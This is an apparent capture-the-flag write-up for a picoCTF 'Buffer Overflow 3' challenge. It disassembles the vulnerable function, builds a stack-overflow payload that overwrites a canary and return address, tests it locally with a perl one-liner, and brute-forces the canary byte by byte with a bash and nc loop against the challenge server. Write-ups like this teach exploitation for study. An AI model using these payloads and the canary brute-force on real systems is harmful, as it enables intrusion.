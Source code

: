 # Buffer Overflow 3

Looking for the vulnerability: we see that when we read `x` we ensure we read
fewer than `BUFSIZE` characters, storing this value in `length`. We then
`sscanf(length, "%d", &count)`, an `count` is then used for the next read. So if
we write to `x` a value greater than `BUFSIZE`, e.g. `10000` then the `sscanf`
call will set `count` to this value allowing us to overflow in the next `read`

Inspecting the stack of `vuln`, looking until the `read` call where `buf` is
used:

``` 
$ objdump -d -Mintel vuln | sed -n '/^[a-f0-9]\+ <vuln>/,/^$/p' 
08049489 <vuln>:
 8049489:	f3 0f 1e fb          	endbr32 
 804948d:	55                   	push   ebp
 804948e:	89 e5                	mov    ebp,esp
 8049490:	53                   	push   ebx
 8049491:	81 ec 94 00 00 00    	sub    esp,0x94
 8049497:	e8 d4 fd ff ff       	call   8049270 <__x86.get_pc_thunk.bx>
 804949c:	81 c3 64 2b 00 00    	add    ebx,0x2b64
 80494a2:	c7 45 f4 00 00 00 00 	mov    DWORD PTR [ebp-0xc],0x0
 80494a9:	c7 c0 54 c0 04 08    	mov    eax,0x804c054
 80494af:	8b 00                	mov    eax,DWORD PTR [eax]
 80494b1:	89 45 f0             	mov    DWORD PTR [ebp-0x10],eax # load canary into stack
 80494b4:	83 ec 0c             	sub    esp,0xc  # canary copied onto stack
 80494b7:	8d 83 c0 e0 ff ff    	lea    eax,[ebx-0x1f40]
 80494bd:	50                   	push   eax
 80494be:	e8 7d fc ff ff       	call   8049140 <printf@plt>
 80494c3:	83 c4 10             	add    esp,0x10
 80494c6:	eb 31                	jmp    80494f9 <vuln+0x70>
 80494c8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80494cb:	8d 95 70 ff ff ff    	lea    edx,[ebp-0x90]
 80494d1:	01 d0                	add    eax,edx
 80494d3:	83 ec 04             	sub    esp,0x4
 80494d6:	6a 01                	push   0x1
 80494d8:	50                   	push   eax
 80494d9:	6a 00                	push   0x0
 80494db:	e8 50 fc ff ff       	call   8049130 <read@plt>
 80494e0:	83 c4 10             	add    esp,0x10
 80494e3:	8d 95 70 ff ff ff    	lea    edx,[ebp-0x90]
 80494e9:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80494ec:	01 d0                	add    eax,edx
 80494ee:	0f b6 00             	movzx  eax,BYTE PTR [eax]
 80494f1:	3c 0a                	cmp    al,0xa
 80494f3:	74 0c                	je     8049501 <vuln+0x78>
 80494f5:	83 45 f4 01          	add    DWORD PTR [ebp-0xc],0x1
 80494f9:	83 7d f4 3f          	cmp    DWORD PTR [ebp-0xc],0x3f
 80494fd:	7e c9                	jle    80494c8 <vuln+0x3f>
 80494ff:	eb 01                	jmp    8049502 <vuln+0x79>
 8049501:	90                   	nop
 8049502:	83 ec 04             	sub    esp,0x4
 8049505:	8d 85 6c ff ff ff    	lea    eax,[ebp-0x94]
 804950b:	50                   	push   eax
 804950c:	8d 83 f2 e0 ff ff    	lea    eax,[ebx-0x1f0e]
 8049512:	50                   	push   eax
 8049513:	8d 85 70 ff ff ff    	lea    eax,[ebp-0x90]
 8049519:	50                   	push   eax
 804951a:	e8 c1 fc ff ff       	call   80491e0 <__isoc99_sscanf@plt>
 804951f:	83 c4 10             	add    esp,0x10
 8049522:	83 ec 0c             	sub    esp,0xc
 8049525:	8d 83 f5 e0 ff ff    	lea    eax,[ebx-0x1f0b]
 804952b:	50                   	push   eax
 804952c:	e8 0f fc ff ff       	call   8049140 <printf@plt>
 8049531:	83 c4 10             	add    esp,0x10
 8049534:	8b 85 6c ff ff ff    	mov    eax,DWORD PTR [ebp-0x94]
 804953a:	83 ec 04             	sub    esp,0x4
 804953d:	50                   	push   eax
 804953e:	8d 45 b0             	lea    eax,[ebp-0x50]
 8049541:	50                   	push   eax
 8049542:	6a 00                	push   0x0
 8049544:	e8 e7 fb ff ff       	call   8049130 <read@plt>
<--- SNIP --->
```

We see just before the second `read` there is a load `lea eax,[ebp-0x50]` which
we expect to be our buffer, so the buffer starts at `ebp-0x50` but `ebp` is
`0x4` byes from the return address, so the buffer is `0x50 + 0x4 = 0x54`. Also
note that the canary is at `ebp-0x10`, i.e. directly above the buffer. So we
should be able to construct a payload like:

  - A large number to be read in as `count`
  - `0x40` bytes of junk to fill up the buffer
  - `0x4` bytes of the canary
  - `0x10` bytes of junk to fill the rest of the stack
  - The address of the `win` function

Testing locally:

``` 
$ echo 'ABCD' > canary.txt
$ perl -E 'say "flag" x 0x10' > flag.txt
$ perl -e 'print("10000\n" . "A" x 0x40 . "ABCD" . "A" x 0x10 .  "\xaa\xbb\xcc\xdd") | ./vuln
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagfla
Segmentation fault (core dumped)
```

Where `\xaa\xbb\xcc\xdd` is just a mocked address for `win`. For the actual
program, we'll need to figure out the canary. Thankfully we can just brute-force
this byte-by-byte (and there's only 4 bytes). Since we can control the `count`
for the second `read` command we can:

  - Set this value to the length of the buffer + 1
  - Fill the buffer with random values, then
  - send 1 more value to guess at the first byte of the canary
  - If stack smashing is detected, go back to the first step, otherwise we've
    found the first byte

As a convenience, let's assume the canary is alphanumeric, then we can guess the
first byte via:

``` console
$ for c in {{A..Z},{a..z},{0..9}}; \
    do CANARY="$c" perl -e 'print(0x41 . "\n" . "A" x 0x40 . $ENV{CANARY} .  "\n")' \
    | nc saturn.picoctf.net 61604 \
    | grep 'Flag' >/dev/null \
    && echo "$c" \
    && break; \
done
```

We can then proceed to brute-force the rest of the canary (you could of course
script this to determine the entire canary in one go, but that seemed too much
effort to fit into one-line in bash and I didn't feel like writing a script).
Then substituting the canary used for our local test and pointing at the remote
yields the key.
